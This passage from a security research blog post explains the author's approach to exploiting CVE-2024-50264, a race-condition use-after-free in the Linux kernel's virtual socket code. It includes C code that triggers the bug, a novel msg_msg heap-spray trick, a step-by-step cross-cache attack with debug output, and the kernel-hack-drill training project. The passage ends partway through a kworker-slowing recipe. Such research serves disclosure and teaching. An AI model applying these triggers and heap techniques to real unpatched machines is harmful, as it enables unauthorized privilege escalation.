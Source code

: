 ```yaml
---
layout: post
title:  "Kernel-hack-drill and a new approach to exploiting CVE-2024-50264 in the Linux kernel"
date:   2025-09-02 13:37:00 +0300
---
```


Some memory corruption bugs are much harder to exploit than others. They can involve race conditions, crash the system, and impose limitations that make a researcher's life difficult. Working with such fragile vulnerabilities demands significant time and effort. CVE-2024-50264 in the Linux kernel is one such hard bug, which received the Pwnie Award 2025 as the Best Privilege Escalation. In this article, I introduce my personal project [kernel-hack-drill](https://github.com/a13xp0p0v/kernel-hack-drill) and show how it helped me to exploit CVE-2024-50264.

## Bug collision story

I first found a bug in `AF_VSOCK` back in 2021 and published the article [Four Bytes of Power: Exploiting CVE-2021-26708 in the Linux kernel](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html). In April 2024, I was fuzzing this kernel subsystem with a customized syzkaller and found another crash in `AF_VSOCK`. I minimized the crash reproducer and disabled KASAN. This resulted in an immediate null-ptr-deref in a kernel worker (`kworker`). Convinced the path forward would be painful, I shelved the bug. This was a wrong decision.

Later, in autumn 2024, I decided to look at this bug again and got promising results. Then, one calm evening, I realized I'd collided with Hyunwoo Kim ([@v4bel](https://x.com/v4bel)) and Wongi Lee ([@qwerty](https://x.com/_qwerty_po)): they'd already disclosed the bug as CVE-2024-50264 and used it at kernelCTF. [Their patch](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/net/vmw_vsock?id=6ca575374dd9a507cdd16dfa0e78c2e9e20bd05f) turned my PoC exploit into a null-ptr-deref:

<center><img src="/img/vsock_patch.png" width="90%"></center><br>

Anyone who has dealt with a bug collision can imagine what I felt. I was wondering whether to keep digging into this vulnerability or just give it up.

<center><img src="/img/Vityaz.jpg" width="80%"><br>Viktor Vasnetsov: Vityaz at the Crossroads (1882)</center><br>

The [exploit strategy](https://github.com/google/security-research/pull/145/files) by @v4bel and @qwerty looked very complicated. I had other ideas, so I decided to continue my research. I chose Ubuntu Server 24.04 with a fresh OEM/HWE kernel (v6.11) as the target for my PoC exploit.

## CVE-2024-50264 analysis

The vulnerability [CVE-2024-50264](https://nvd.nist.gov/vuln/detail/CVE-2024-50264) was introduced in August 2016 by commit [06a8fc78367d](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/net/vmw_vsock?id=06a8fc78367d070720af960dcecec917d3ae5f3b) in Linux v4.8. It is a race condition in `AF_VSOCK` sockets that happens between the `connect()` system call and a POSIX signals, resulting in a use-after-free (UAF). An unprivileged user can trigger this bug without user namespaces, which makes it more dangerous.

The kernel uses a freed `virtio_vsock_sock` object. Its size is 80 bytes, which is suitable for the `kmalloc-96` slab cache. The memory corruption is a UAF write executed by a kernel worker.

However, this vulnerability also brings a bunch of nasty limitations for exploitation. I can say that **it's the worst bug to exploit I've ever seen**. The Pwnie Award is well-deserved. I'll outline those constraints shortly.

## Reproducing the bug using an "immortal signal"

First, an attacker should create a listening virtual socket (server vsock):
```c
int ret = -1;
int vsock1 = 0;

vsock1 = socket(AF_VSOCK, SOCK_STREAM, 0);
if (vsock1 < 0)
	err_exit("[-] creating vsock");

ret = bind(vsock1, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));
if (ret != 0)
	err_exit("[-] binding vsock");

ret = listen(vsock1, 0); /* backlog = 0 */
if (ret != 0)
	err_exit("[-] listening vsock");
```

Then the attacker should try to open a connection from a client vsock:
```c
#define UAF_PORT 0x2712

int vsock2 = 0;
struct sockaddr_vm addr = {
	.svm_family = AF_VSOCK,
	.svm_port = UAF_PORT,
	.svm_cid = VMADDR_CID_LOCAL
};

vsock2 = socket(AF_VSOCK, SOCK_STREAM, 0);
if (vsock2 < 0)
	err_exit("[-] creating vsock");

ret = connect(vsock2, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));
```

To trigger the bug, the attacker should interrupt this `connect()` system call with a POSIX signal. @v4bel & @qwerty used `SIGKILL`, but that kills the exploit process. My fuzzer stumbled on a cleaner trick that surprised me:

```c
struct sigevent sev = {};
timer_t race_timer = 0;

sev.sigev_notify = SIGEV_SIGNAL;
sev.sigev_signo = 33;
ret = timer_create(CLOCK_MONOTONIC, &sev, &race_timer);
```

My fuzzer discovered that a timer can fire signal 33 and interrupt `connect()`. Signal 33 is special. The Native POSIX Threads Library (NPTL) keeps it for internal work and the operating system quietly shields applications from it. As `man 7 nptl` explains:

>NPTL makes internal use of the first two real-time signals (signal numbers 32 and 33).
One of these signals is used to support thread cancellation and POSIX timers (see `timer_create(2)`);
the other is used as part of a mechanism that ensures all threads in a process always have
the same UIDs and GIDs, as required by POSIX. These signals cannot be used in applications.

True, these signals cannot be used in applications, but they are perfect for my exploit 😉

<center><img src="/img/secret.jpeg" width="50%"></center><br>

I use `timer_settime()` for `race_timer`, which lets me choose the exact moment signal 33 interrupts `connect()`. Moreover, the signal is invisible to the exploit process and doesn't kill it.

## About memory corruption

The race condition succeeds when a signal interrupts the `connect()` system call while the vulnerable socket is in the `TCP_ESTABLISHED` state. The socket then [drops into](https://elixir.bootlin.com/linux/v6.11.7/source/net/vmw_vsock/af_vsock.c#L1475) the `TCP_CLOSING` state:

```c
if (signal_pending(current)) {
	err = sock_intr_errno(timeout);
	sk->sk_state = sk->sk_state == TCP_ESTABLISHED ? TCP_CLOSING : TCP_CLOSE;
	sock->state = SS_UNCONNECTED;
	vsock_transport_cancel_pkt(vsk);
	vsock_remove_connected(vsk);
	goto out_wait;
}
```

The second attempt to connect the vulnerable vsock to the server vsock using a different `svm_cid` (`VMADDR_CID_HYPERVISOR`) provokes memory corruption.

```c
struct sockaddr_vm addr = {
	.svm_family = AF_VSOCK,
	.svm_port = UAF_PORT,
	.svm_cid = VMADDR_CID_HYPERVISOR
};

/* this connect will schedule the kernel worker performing UAF */
ret = connect(vsock2, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));
```

Under the hood, the `connect()` system call [executes](https://elixir.bootlin.com/linux/v6.11.7/source/net/vmw_vsock/af_vsock.c#L439) `vsock_assign_transport()`. This function switches the virtual socket to the new `svm_cid` transport and frees the resources tied to the previous vsock transport:
```c
if (vsk->transport) {
	if (vsk->transport == new_transport)
		return 0;

	/* transport->release() must be called with sock lock acquired.
	 * This path can only be taken during vsock_connect(), where we
	 * have already held the sock lock. In the other cases, this
	 * function is called on a new socket which is not assigned to
	 * any transport.
	 */
	vsk->transport->release(vsk);
	vsock_deassign_transport(vsk);
}
```

This procedure [closes](https://elixir.bootlin.com/linux/v6.11.7/source/net/vmw_vsock/virtio_transport_common.c#L1214) the old vsock transport in `virtio_transport_close()` and [frees](https://elixir.bootlin.com/linux/v6.11.7/source/net/vmw_vsock/virtio_transport_common.c#L1085) the `virtio_vsock_sock` object in `virtio_transport_destruct()`. However, due to the erroneous `TCP_CLOSING` state of the socket, `virtio_transport_close()` initiates further communication. To handle that activity, the kernel schedules a `kworker` that eventually calls `virtio_transport_space_update()`, which [operates](https://elixir.bootlin.com/linux/v6.11.7/source/net/vmw_vsock/virtio_transport_common.c#L1434) on the freed structure:

```c
static bool virtio_transport_space_update(struct sock *sk, struct sk_buff *skb)
{
	struct virtio_vsock_hdr *hdr = virtio_vsock_hdr(skb);
	struct vsock_sock *vsk = vsock_sk(sk);
	struct virtio_vsock_sock *vvs = vsk->trans; /* ptr to freed object */
	bool space_available;

	if (!vvs)
		return true;

	spin_lock_bh(&vvs->tx_lock); /* proceed if 4 bytes are zero (UAF write non-zero to lock) */
	vvs->peer_buf_alloc = le32_to_cpu(hdr->buf_alloc); /* UAF write 4 bytes */
	vvs->peer_fwd_cnt = le32_to_cpu(hdr->fwd_cnt); /* UAF write 4 bytes */
	space_available = virtio_transport_has_space(vsk); /* UAF read, not interesting */
	spin_unlock_bh(&vvs->tx_lock); /* UAF write, restore 4 zero bytes */
	return space_available;
}
```

The following diagram shows the layout of the UAF in the vulnerable object:

<center><img src="/img/uaf_write.png"></center><br>

Here in yellow I show the `tx_lock` field that must be zero. Otherwise, the kernel hangs while trying to acquire the spinlock. In red I show the `peer_buf_alloc` and `peer_fwd_cnt` fields that are overwritten after the object is freed. There is no pointer dereference in the freed object.

The value written to `virtio_vsock_sock.peer_buf_alloc` can be controlled from the userspace:

```c
/* Increase the range for the value that we want to write during UAF: */
uaf_val_limit = 0x1lu; /* can't be zero */
setsockopt(vsock1, PF_VSOCK, SO_VM_SOCKETS_BUFFER_MIN_SIZE,
           &uaf_val_limit, sizeof(uaf_val_limit));
uaf_val_limit = 0xfffffffflu;
setsockopt(vsock1, PF_VSOCK, SO_VM_SOCKETS_BUFFER_MAX_SIZE,
           &uaf_val_limit, sizeof(uaf_val_limit));

/* Set the 4-byte value that we want to write during UAF: */
setsockopt(vsock1, PF_VSOCK, SO_VM_SOCKETS_BUFFER_SIZE,
           &uaf_val, sizeof(uaf_val));
```

The field `virtio_vsock_sock.peer_fwd_cnt` tracks how many bytes have been pushed through vsock using `sendmsg()`/`recvmsg()`. It is zero by default (four zero bytes).

## Not so fast. CVE-2024-50264 has limitations

As I mentioned earlier, this vulnerability has a lot of nasty limitations for the exploitation:

1. The vulnerable `virtio_vsock_sock` client object is allocated together with the server object from the same slab cache. That disturbs cross-cache attacks.
2. Reproducing this race condition is very unstable.
3. The UAF write occurs in a kworker a few microseconds after `kfree()`, too quickly for typical cross-cache attacks.
4. A null-ptr-deref in the kworker follows the UAF write. That's why I shelved the bug at first.
5. Even if that kernel oops is avoided, another null-ptr-deref occurs in the kworker after `VSOCK_CLOSE_TIMEOUT` (eight seconds).
6. The kworker hangs in `spin_lock_bh()` if `virtio_vsock_sock.tx_lock` is not zero, as noted above.

I uncovered each obstacle one by one while developing the PoC exploit for CVE-2024-50264. It remains the worst bug to exploit I've ever seen. I guess that's why it received the Pwnie Award 2025 as the Best Privilege Escalation.

<center><img src="/img/mario.jpg" width="80%"></center><br>

## First thoughts on exploit strategy

The exploit strategy by @v4bel and @qwerty was complex:

1. A large-scale BPF JIT spray that filled a significant portion of physical memory
2. The [SLUBStick technique](https://github.com/IAIK/SLUBStick) from Graz University of Technology, which allowed to:
  - Determine the number of objects in the active slab using a timing side channel
  - Then, place the client and server `virtio_vsock_sock` objects in different slabs, landing one at the end of its slab and the other at the start of the next slab
3. The [Dirty Pagetable](https://web.archive.org/web/20250226150503/https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html) technique, which allowed to use the UAF object for overwriting a page table entry (PTE)
4. Modifying a PTE to make it possibly point to a BPF JIT region
5. Inserting a privilege-escalation payload into the BPF code
6. Communicating via a socket to execute the privilege-escalation payload.

<center><img src="/img/grumpy12.jpeg" width="80%"></center><br>

I felt I could make the PoC exploit for CVE-2024-50264 much simpler. My first thought was to steer the UAF write into some victim object and build a useful exploit primitive around it.

I decided not to search victim objects inside the `kmalloc-96` slab cache. Ubuntu Server 24.04 ships with `kconfig` options that neutralize naive heap spraying for UAF exploitation:
- `CONFIG_SLAB_BUCKETS=y`, which creates a set of separate slab caches for allocations with user-controlled data
- `CONFIG_RANDOM_KMALLOC_CACHES=y`. Here's a quote from the kernel documentation about it:
  > It is a hardening feature that creates multiple copies of slab caches for normal kmalloc allocation and makes kmalloc randomly pick one based on code address, which makes the attackers more difficult to spray vulnerable memory objects on the heap for the purpose of exploiting memory vulnerabilities.

That's why I decided to perform the cross-cache attack anyway.

The first victim object I decided to try was `struct cred`. Its size is 184 bytes, and the kernel allocates these objects in slabs of size 192 bytes. That would allow only two possible offsets of the UAF in the victim `cred`, because slabs for the vulnerable `virtio_vsock_sock` have size 96 bytes (half of 192). The diagram below shows how two vulnerable `virtio_vsock_sock` objects overlap the `cred` object. The memory corruption may happen on one of the `virtio_vsock_sock` objects.

<center><img src="/img/uaf_write_cred2.png" width="80%"></center><br>

Unfortunately, `struct cred` reallocated at the place of the freed `virtio_vsock_sock` objects doesn't provide anything useful for the attacker:
- If the UAF happened on the first `virtio_vsock_sock`, the kernel would hang in `spin_lock_bh()`, because `cred` has a non-null `uid` value at the place of `virtio_vsock_sock.tx_lock`.
- If the UAF happened on the second `virtio_vsock_sock`, writing controlled data to `virtio_vsock_sock.peer_buf_alloc` would corrupt the `cred.request_key_auth` pointer. I had no idea how to use it without a prior infoleak.

The `cred` object didn't work for me, so I started to search for the next candidate. My next victim object for the memory corruption was `msg_msg`. I like this object: I first used it for heap spraying in 2021 (you can find the details in the article ["Four Bytes of Power: Exploiting CVE-2021-26708 in the Linux kernel"](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html)).

It was a novel approach back then. This time, I set out to create something new again.

I chose a 96-byte `msg_msg` because the slab allocator would use slabs of the same size for this `msg_msg` and `virtio_vsock_sock`. That would allow the UAF write to land at a fixed offset in the victim `msg_msg` object. The following diagram shows what happens with the `msg_msg` object allocated at the place of the freed `virtio_vsock_sock`:

<center><img src="/img/uaf_write_msg_msg.png" width="90%"></center><br>

The `msg_msg.m_list.prev` is the kernelspace pointer to the previous object in the linked list. This pointer is zero when `msg_msg` is created (see `CONFIG_INIT_ON_ALLOC_DEFAULT_ON`) and then it is initialized with a non-null value when `msg_msg` [is inserted](https://elixir.bootlin.com/linux/v6.15.5/source/ipc/msg.c#L941) into the message queue. Unfortunately, this non-null pointer is interpreted as `virtio_vsock_sock.tx_lock`. That makes the `virtio_transport_space_update()` function hang while executing `spin_lock_bh()`.

To bypass this restriction, I needed the kernel to initialize `msg_msg.m_list.prev` after the UAF write. I looked for a way to postpone placing `msg_msg` in the message queue and eventually found the solution.

## msg_msg spray allowing m_list field corruption (novel technique)

1. I filled the message queue almost completely before sending the target `msg_msg`.
  - The message queue size is `MSGMNB=16384` bytes.
  - I sent 2 clogging messages of 8191 bytes each without calling the `msgrcv()` syscall.
  - Only 2 bytes were left in the queue.
  - I used `mtype = 1` for these messages.

2. Then I performed spraying by calling `msgsnd()` for the target `msg_msg` objects.
  - I called the `msgsnd()` syscall in separate pthreads and used `mtype = 2` for these messages to distinguish them from the clogging messages.
  - The kernel allocates target `msg_msg` and then blocks `msgsnd()` in `ipc/msg.c` while it [waits for space](https://elixir.bootlin.com/linux/v6.15.5/source/ipc/msg.c#L900) in the message queue:

    ```c
    	if (msg_fits_inqueue(msq, msgsz))
    		break;
    
    	/* queue full, wait: */
    	if (msgflg & IPC_NOWAIT) {
    		err = -EAGAIN;
    		goto out_unlock0;
    	}
    
    	/* enqueue the sender and prepare to block */
    	ss_add(msq, &s, msgsz);
    
    	if (!ipc_rcu_getref(&msq->q_perm)) {
    		err = -EIDRM;
    		goto out_unlock0;
    	}
    
    	ipc_unlock_object(&msq->q_perm);
    	rcu_read_unlock();
    	schedule();
    ```

    <center><img src="/img/train_msg_msg.jpg" width="80%"></center><br>

3. While the `msgsnd()` syscalls were waiting for space in the message queue, I performed the UAF write corrupting the `m_list`, `m_type`, and `m_ts` fields of one of the target `msg_msg` objects.

4. After the UAF write, I called `msgrcv()` for type 1 clogging messages.

5. Then the blocked `msgsnd()` syscall woke up to add the sprayed `msg_msg` to the queue and [the kernel fixed](https://elixir.bootlin.com/linux/v6.15.5/source/ipc/msg.c#L941) the corrupted `m_list` field:
 ```c
 	if (!pipelined_send(msq, msg, &wake_q)) {
 		/* no one is waiting for this message, enqueue it */
 		list_add_tail(&msg->m_list, &msq->q_messages);
 		msq->q_cbytes += msgsz;
 		msq->q_qnum++;
 		percpu_counter_add_local(&ns->percpu_msg_bytes, msgsz);
 		percpu_counter_add_local(&ns->percpu_msg_hdrs, 1);
 	}
 ```

Cool! This technique is also useful for blind overwriting of `msg_msg` using the out-of-bounds write. No kernel infoleak is needed. The kernel restores the corrupted `m_list` pointers. In my particular case, this approach allowed me to avoid `virtio_transport_space_update()` hanging in `spin_lock_bh()`:

<center><img src="/img/uaf_write_msg_msg2.png" width="90%"></center><br>

To implement the UAF write into an `msg_msg` object, I needed to perform cross-cache attack turning `virtio_vsock_sock` into `msg_msg`. On Ubuntu Server 24.04, the `virtio_vsock_sock` objects live in one of 16 `kmalloc-rnd-?-96` slab caches enabled by `CONFIG_RANDOM_KMALLOC_CACHES`. The `msg_msg` objects live in a dedicated `msg_msg-96` slab cache enabled by `CONFIG_SLAB_BUCKETS`.

To implement the cross-cache attack, I needed to learn how these attacks work on the latest Ubuntu kernel, but testing exploit primitives together with this crazy race condition was really painful. Then, I got an idea:

> If an unstable race condition creates problems, let's use a testing ground for developing the exploit primitives!

## Kernel Hack Drill

Back in 2017, I created a pet project for my students called [kernel-hack-drill](https://github.com/a13xp0p0v/kernel-hack-drill). It provides a test environment for learning and experimenting with Linux kernel exploits. I remembered it and decided to use `kernel-hack-drill` to develop the exploit primitives for CVE-2024-50264.

`kernel-hack-drill` is an open-source project published under the `GPL-3.0` license. It contains the following parts:
- `drill_mod.c` is a small Linux kernel module that provides the `/proc/drill_act` file as a simple interface to userspace. This module contains vulnerabilities that you can control and experiment with.
- `drill.h` is a header file describing the `drill_mod.ko` interface:
  ```c
  enum drill_act_t {
  	DRILL_ACT_NONE = 0,
  	DRILL_ACT_ALLOC = 1,
  	DRILL_ACT_CALLBACK = 2,
  	DRILL_ACT_SAVE_VAL = 3,
  	DRILL_ACT_FREE = 4,
  	DRILL_ACT_RESET = 5
  };
  
  #define DRILL_ITEM_SIZE 95
  
  struct drill_item_t {
  	unsigned long foobar;
  	void (*callback)(void);
  	char data[]; /* C99 flexible array */
  };
  
  #define DRILL_N 10240
  ```
- `drill_test.c` is a userspace test for `drill_mod.ko` that provides the examples of using `/proc/drill_act`. This test doesn't provoke memory corruptions in `drill_mod.ko` and it passes if `CONFIG_KASAN=y`.
- `README.md` includes a detailed step-by-step setup guide on how to use `kernel-hack-drill` (kudos to the contributors!).

Fun fact: when I chose the name `kernel-hack-drill` for this project, I used the word `drill` to mean `training` or `workout` for Linux kernel security. My friends and students read it differently. They thought I meant something like this:

<center><img src="/img/drill_tux.jpg" width="60%"></center><br>

The `kernel-hack-drill` project is a bit similar to [KRWX](https://github.com/hacktivesec/KRWX), but much simpler. Moreover, it ships with ready-made PoC exploits:
- `drill_uaf_callback.c`: a UAF exploit that invokes a callback inside a freed `drill_item_t` structure. It hijacks control flow and gains LPE.
- `drill_uaf_w_msg_msg.c`: a UAF exploit that writes into a freed `drill_item_t`. It uses a cross-cache attack and overwrites `msg_msg.m_ts` enabling out-of-bounds reading of the kernel memory. I wrote this PoC while working on the bug described in this article.
- `drill_uaf_w_pipe_buffer.c`: a UAF exploit that writes into a freed `drill_item_t`. It performs a cross-cache attack and overwrites `pipe_buffer.flags` to implement the Dirty Pipe technique and gain LPE. This PoC exploit was also developed during my experiments with CVE-2024-50264.

Recent contributions added new variants (kudos to the contributors!):
- `drill_uaf_callback_rop_smep.c`: an improved version of `drill_uaf_callback.c` that adds a ROP chain to bypass SMEP on `x86_64`.
- `drill_uaf_w_pte.c`: a UAF exploit that writes to a freed `drill_item_t`. It performs a cross-allocator attack and overwrites a page table entry (PTE) to implement the Dirty Pagetable technique and gain LPE on `x86_64`.
- `drill_uaf_w_pud.c`: an improved version of `__drill_uaf_w_pte.c__` that overwrites a page upper directory (PUD) instead of a PTE and implements the Dirty Pagetable attack via huge pages.

When I revisited `kernel-hack-drill` during my CVE-2024-50264 work, this spare-time project hadn't seen an update in years. But now `kernel-hack-drill` offers a solid set of resources that Linux kernel security researchers can explore.

## Experimenting with cross-cache attack using kernel-hack-drill

My first step was to learn how cross-cache attacks behave on the latest Ubuntu kernel with slab allocator hardening turned on.

I implemented a standard cross-cache attack in `drill_uaf_w_msg_msg.c`. You can see [the full code in the repository](https://github.com/a13xp0p0v/kernel-hack-drill/blob/e3a105cde99912c89c2c1470a29101eb0d9c2d56/drill_uaf_w_msg_msg.c), so I'll sketch the flow here. For background, I highly recommend [Andrey Konovalov](https://xairy.io/about)'s talk [SLUB Internals for Exploit Developers](https://www.youtube.com/watch?v=2hYzxsWeNcE).

To plan the attack, I pulled the needed info from `/sys/kernel/slab`. The slab caches that hold `virtio_vsock_sock` (80 bytes) or `drill_item_t` (95 bytes) each keep 120 slabs in per-CPU partial lists (`cpu_partial=120`) and 42 objects in each slab (`objs_per_slab=42`).

The cross-cache attack algorithm:
1. Allocate `objs_per_slab` objects to create a fresh active slab. Active slab is the slab that will be used by the kernel for the next allocation.
2. Allocate `objs_per_slab * cpu_partial` objects. This creates the `cpu_partial` number of full slabs that will later populate the partial list at step 6.
3. Create a slab that contains the UAF object. Allocate `objs_per_slab` objects and keep a dangling reference to the vulnerable object in that slab.
4. Create a new active slab again: allocate `objs_per_slab` objects. This step is **very important** for keeping the cross-cache attack stable. Otherwise, the slab with the vulnerable object remains active and cannot be reclaimed by the page allocator.
5. Completely free the slab that holds the UAF object. To do that, free `(objs_per_slab * 2 - 1)` of the objects allocated just before the last one. The active slab now contains only the last object, and the slab with the UAF object becomes free and moves to the partial list.
6. Fill up the partial list: free one of each `objs_per_slab` objects in the reserved slabs from step 2. That makes the slab allocator clean up the partial list and move the free slab containing the UAF object to the page allocator.
7. Reclaim the page that contained the UAF object for another slab cache: spray the target `msg_msg` objects. As a result, one `msg_msg` is allocated where the vulnerable object (`drill_item_t` in my case) used to be.
8. Exploit the UAF! Overwrite `msg_msg.m_ts` to read kernel memory out of bounds.

I've seen plenty of publications that cover cross-cache attack, but none of them explain how to debug it. I'll fill that gap.

Let's examine the [attack](https://github.com/a13xp0p0v/kernel-hack-drill/blob/e3a105cde99912c89c2c1470a29101eb0d9c2d56/drill_uaf_w_msg_msg.c) in `drill_uaf_w_msg_msg.c`. To watch it in action and debug it, make the following tweaks in your kernel sources:
```diff
diff --git a/mm/slub.c b/mm/slub.c
index be8b09e09d30..e45f055276d1 100644
--- a/mm/slub.c
+++ b/mm/slub.c
@@ -3180,6 +3180,7 @@ static void __put_partials(struct kmem_cache *s, struct slab *partial_slab)
        while (slab_to_discard) {
                slab = slab_to_discard;
                slab_to_discard = slab_to_discard->next;
+               printk("__put_partials: cache 0x%lx slab 0x%lx\n", (unsigned long)s, (unsigned long)slab);
 
                stat(s, DEACTIVATE_EMPTY);
                discard_slab(s, slab);

diff --git a/ipc/msgutil.c b/ipc/msgutil.c
index c7be0c792647..21af92f531d6 100644
--- a/ipc/msgutil.c
+++ b/ipc/msgutil.c
@@ -64,6 +64,7 @@ static struct msg_msg *alloc_msg(size_t len)
        msg = kmem_buckets_alloc(msg_buckets, sizeof(*msg) + alen, GFP_KERNEL);
        if (msg == NULL)
                return NULL;
+       printk("msg_msg 0x%lx\n", (unsigned long)msg);
 
        msg->next = NULL;
        msg->security = NULL;
```

In `__put_partials()` I print the address of the slab that returns to the page allocator when `discard_slab()` runs. In `alloc_msg()` I print the kernel address of each newly allocated `msg_msg` object.

When the cross-cache attack succeeds, the slab that held `drill_item_t` objects is handed back to the page allocator and then reused for `msg_msg` objects. Running the PoC exploit `drill_uaf_w_msg_msg` makes this visible, as we observe:
- In the kernel log:
  ```
  [   32.719582] drill: kmalloc'ed item 5123 (0xffff88800c960660, size 95)
  ```
- Then in stdout:
  ```
  [+] done, current_n: 5124 (next for allocating)
  [!] obtain dangling reference from use-after-free bug
  [+] done, uaf_n: 5123
  ```
- Then in GDB (using with [bata24/gef](https://github.com/bata24/gef)):
  ```
  gef> slab-contains 0xffff88800c960660
  [+] Wait for memory scan
  slab: 0xffffea0000325800
  kmem_cache: 0xffff888003c45300
  base: 0xffff88800c960000
  name: kmalloc-rnd-05-96  size: 0x60  num_pages: 0x1
  ```
- Finally, in the kernel log:
  ```
  [   36.778165] drill: free item 5123 (0xffff88800c960660)
  ...
  [   36.807956] __put_partials: cache 0xffff888003c45300 slab 0xffffea0000325800
  ...
  [   36.892053] msg_msg 0xffff88800c960660
  ```

We see the `drill_item_t` object `0xffff88800c960660` in slab `0xffffea0000325800` reallocated as `msg_msg`, which confirms that the cross-cache attack worked.

After experimenting with `kernel-hack-drill` on Ubuntu Server 24.04, I found that `CONFIG_RANDOM_KMALLOC_CACHES` and `CONFIG_SLAB_BUCKETS` block naive UAF exploitation, yet they also make cross-cache attacks absolutely stable. So, in my humble opinion:

<center><img src="/img/slab_hardening.jpg" width="60%"></center><br>

It seems that, without a mitigation such as [SLAB_VIRTUAL](https://lore.kernel.org/all/20230915105933.495735-15-matteorizzo@google.com/), the Linux kernel remains wide-open to cross-cache attacks.

## Adapting the cross-cache attack to CVE-2024-50264

As noted in the limitations, the vulnerable `virtio_vsock_sock` client object is allocated together with the server object (**Limitation #1**). That hurts the exploit for two reasons:
- On one hand, leaving the server vsock open stops the slab that holds the UAF object from being freed, which kills the cross-cache attack.
- On the other hand, closing the server vsock disturbs the UAF itself.

How to deal with it? @v4bel and @qwerty used the [SLUBStick](https://github.com/IAIK/SLUBStick) timing side channel to spot when the allocator switched to a new active slab. I went another way:
> What if I hit the `connect()` syscall with a signal **almost immediately**?

In short, I used **one more race condition** to exploit the main race condition -- and it worked:
- I sent the "immortal" signal 33 to the vulnerable `connect()` syscall after a 10000 ns timeout, far earlier than the delay needed to trigger the UAF.
- Then I verified the early race condition:
  1. The `connect()` syscall must return "Interrupted system call"
  2. Another testing client vsock should still connect to the server vsock without trouble

I discovered that when both checks passed, only a single vulnerable `virtio_vsock_sock` for the client vsock was created. The interrupting signal arrived before the kernel could create the second `virtio_vsock_sock` for the server vsock. This bypassed **Limitation #1** (paired-object creation). After that, I sent signal 33 again -- this time after the normal timeout -- to interrupt the vulnerable `connect()` a second time and provoke the UAF. The cross-cache attack against `virtio_vsock_sock` was unlocked!

Looping this early race and checking its result was quick. Once the early race succeeded, the main race that triggers the UAF became more stable; I could now hit the UAF about once per second instead of once every several minutes, solving the instability noted in **Limitation #2**. My race condition "speedrun" also eased **Limitation #5**: I managed roughly five UAF writes before the kworker hit a null-ptr-deref at `VSOCK_CLOSE_TIMEOUT` (8 seconds).

To address **Limitation #4** (the immediate null-ptr-deref in the kworker after UAF), I tried one more race condition, similarly to @v4bel and @qwerty. Right after the UAF-triggering `connect()`, I called `listen()` on the vulnerable vsock. If `listen()` ran before the kworker, it changed the vsock state to `TCP_LISTEN`, preventing the crash. Unfortunately, this step remains the most unstable part of the whole exploit; the rest is far more stable.

At that point my list of CVE-2024-50264 limitations looked like this:
1. ~~The vulnerable `virtio_vsock_sock` client object is allocated together with the server object from the same slab cache. That disturbs cross-cache attacks.~~
2. ~~Reproducing this race condition is very unstable.~~
3. __The UAF write occurs in a kworker a few microseconds after `kfree()`, too quickly for typical cross-cache attacks.__
4. ~~A null-ptr-deref in the kworker follows the UAF write. That's why I shelved the bug at first.~~
5. ~~Even if that kernel oops is avoided, another null-ptr-deref occurs in the kworker after `VSOCK_CLOSE_TIMEOUT` (eight seconds).~~
6. __The kworker hangs in `spin_lock_bh()` if `virtio_vsock_sock.tx_lock` is not zero.__

With the early-signal trick in place, only two limitations were still blocking my exploit.

## Oh so slow! The cross-cache attack shows up late to the party

As noted in **Limitation #3**, the UAF write in the kworker fires only a few μs after `kfree()` for the `virtio_vsock_sock`. A cross-cache attack needs much more time, so the UAF write lands on the original `virtio_vsock_sock` and never reaches the `msg_msg`.

<center><img src="/img/uaf_and_cross_cache.jpeg" width="50%"></center><br>

I didn't know how to make cross-cache procedure faster, but I knew how to slow down the attacked kernel code instead. That approach is described in Jann Horn's article [Racing against the clock](https://googleprojectzero.blogspot.com/2022/03/racing-against-clock-hitting-tiny.html). It allowed to make my kworker slower than a sluggish cross-cache attack.

The main idea is to hammer the kworker with a `timerfd` watched by a huge pile of `epoll` instances. Here is the short recipe (see [Jann's article](https://googleprojectzero.blogspot.com/2022/03/racing-against-clock-hitting-tiny.html) for full detail):
1. Call `timerfd_create(CLOCK_MONOTONIC, 0)`.
2. Create 8 forks.
3. In each fork, call `dup()` for the `timerfd` 100 times.
4. In each fork, call `epoll_create()` 500 times.
